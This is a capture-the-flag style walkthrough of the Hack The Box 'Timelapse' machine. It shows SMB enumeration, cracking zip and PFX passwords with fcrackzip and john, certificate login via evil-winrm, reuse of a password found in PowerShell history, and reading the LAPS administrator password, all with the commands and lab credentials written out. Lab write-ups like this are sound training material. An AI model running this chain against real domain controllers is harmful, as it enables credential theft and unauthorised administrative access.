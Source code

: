 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.11.152 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/1.png">

From the looks of it we can tell it's a domain controller. Lot's of open ports to investigate.

# Enumeration
Normally a domain controller has great enumeration potential. We can use tools like ```smbclient, enum4linux, smbmap, nbtscan, rpcclient``` and there are numerous ```impacket``` scripts available.

Using ```rpcclient``` we see what privileges the current users has.
```
rpcclient -U '' -N 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/5.png">

Unfortunately ```enumdomusers``` is not allowed. At this point is just trial and error running different commands. Let's leave it for now.

After doing some more enumeration we find a share at ```Shares``` containing some files. 
```
smbclient -N -L //10.10.11.152/
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/2.png">



# Initial Foothold
Extracting the zipfile requires a password. We can use ```7z``` to get more information on the zipfile and it's encryption.

```
7z l -slt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/3.png">


We can try to crack the password using ```john``` or ```fcrackzip```. In this case I chose the latter.

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/4.png">


We have cracked the password and can now extract ```legacyy_dev_auth.pfx```.

A PFX file indicates a certificate in PKCS#12 format; it contains the certificate, the intermediate authority certificate necessary for the trustworthiness of the certificate, and the private key to the certificate. Think of it as an archive that stores everything you need to deploy a certificate.

I had to update ```john``` in order to have ```pfx2john``` available and run the following command to create a suitable hash for ```john```.

```
pfx2john legacy_dev_auth.pfx > hash
```

And pass it along to ```john```:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash    
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/6.png">

We have cracked the password using the rockyou wordlist. I found [documentation](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) how one can extract the private key and certificate from a pfx file.

Extract the private key:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacy.key -nodes  
``` 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/7.png">

And we do the same for the certificate:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.crt 
```

After this we alter the files by removing the header so we are only left with the key itself. We can now continue by using the keys to connect to the target with ```evil-winrm``` .

```
evil-winrm -S -k legacy.key -c legacy.crt -i 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/8.png">

# Lateral Movement
We are unable to use ```winPEAS``` because Microsoft Defender is blocking the file. Using an obfuscated version didn't help either. After further enumerating the host for the usual ways for privilege escalation I was unable to find anything useful. I tried eunning Powershell scripts but without any luck. I got some help pointing me in the right direction and found the Powershell history file:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/9.png">

We found the password for the ```svc_deploy``` account and can use this to run commands as the this user.

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

And we can check for privileges:
```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /priv}

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/10.png">


# Privilege Escalation
We see that this user is member of the ```LAPS_Readers``` group which is useful to us because we can probably extract the local administrator password. We can check this by using the ```AD-Module```.

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/11.png">

Now that we've found the password we can again use ```evil-winrm``` to connect to the target as ```administrator```.

```
evil-winrm -i 10.10.11.152 -u administrator -p '6yHTPR#s417Lo6/7kC{aP!WC' 
```






